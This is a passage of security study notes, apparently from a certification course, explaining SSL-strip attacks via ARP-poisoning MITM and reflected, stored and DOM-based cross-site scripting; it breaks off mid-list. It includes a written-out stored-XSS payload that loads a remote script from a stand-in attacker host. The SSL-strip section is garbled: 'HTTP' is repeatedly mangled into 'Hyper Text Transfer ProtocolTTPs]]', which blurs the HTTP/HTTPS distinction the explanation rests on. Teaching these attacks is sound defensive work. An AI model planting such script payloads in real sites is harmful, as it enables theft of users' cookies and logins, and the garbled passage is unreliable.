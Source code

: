 ### SSL Strip

A Secure Sockets Layer ([[SSL]]) strip attack is launched against clients on a local network as they try to make connections to websites. The [[threat actor]] must first perform a Man-in-the-Middle ([[MITM]]) attack via [[ARP]] poisoning to masquerade as the default gateway. When a client requests an Hyper Text Transfer ProtocolTTPs]] site that redirects to an Hyper Text Transfer ProtocolTTPs]]S site in an unsafe way, the sslstrip utility ([https://github.com/moxie0/sslstrip](https://github.com/moxie0/sslstrip)) proxies the request and response, serving the client the Hyper Text Transfer ProtocolTTPs]] site, hopefully with an unencrypted login form. If the user enters credentials, they will be captured by the [[threat actor]]. Sites can use the Hyper Text Transfer ProtocolTTPs]] Strict Transport Security (HSTS) lists maintained by browsers to prevent clients requesting Hyper Text Transfer ProtocolTTPs]] in the first place. 

Play Video
# CROSS-SITE SCRIPTING 

Web applications depend on scripting, and most websites these days are web applications rather than static web pages. If the user attempts to disable scripting, very few sites will be left available. A cross-site scripting ([[XSS]]) attack exploits the fact that the browser is likely to trust scripts that appear to come from a site the user has chosen to visit. XSS inserts a malicious script that appears to be part of the trusted site. A nonpersistent type of XSS attack would proceed as follows:

1.  The attacker identifies an input validation vulnerability in the trusted site.
2.  The attacker crafts a URL to perform a code injection against the trusted site. This could be coded in a link from the attacker's site to the trusted site or a link in an email message.
3.  When the user clicks the link, the trusted site returns a page containing the malicious code injected by the attacker. **As the browser is likely to be configured to allow the site to run scripts,** the malicious code will execute.

The malicious code could be **used to** deface the trusted site (by adding any sort of arbitrary HTML code), steal data from the user's cookies, try to intercept information entered into a form, perform a request forgery attack, or try to install malware. The crucial point is that the malicious code runs in the client's browser with the same permission level as the trusted site.

An attack where the malicious input comes from a crafted link is a reflected or nonpersistent XSS attack. A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. For example, the attacker may submit a post to a bulletin board with a malicious script embedded in the message. When other users view the message, the malicious script is executed. For example, with no input sanitization, a [[threat actor]] could type the following into a new post text field:

Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.

Users viewing the post will have the malicious script hook.js execute in their browser.

A third type of [[XSS]] attack exploits [[vulnerability|vulnerabilities]] in client-side scripts. Such scripts often use the Document Object Model ([[DOM]]) to modify the content and layout of a web page. For example, the "document.write" method enables a page to take some user input and modify the page accordingly. An exploit against a client-side script could work as follows:

1.  The attacker identifies an input validation vulnerability in the trusted site. For example, a message board might take the user's name from an input text box and show it in a header.
    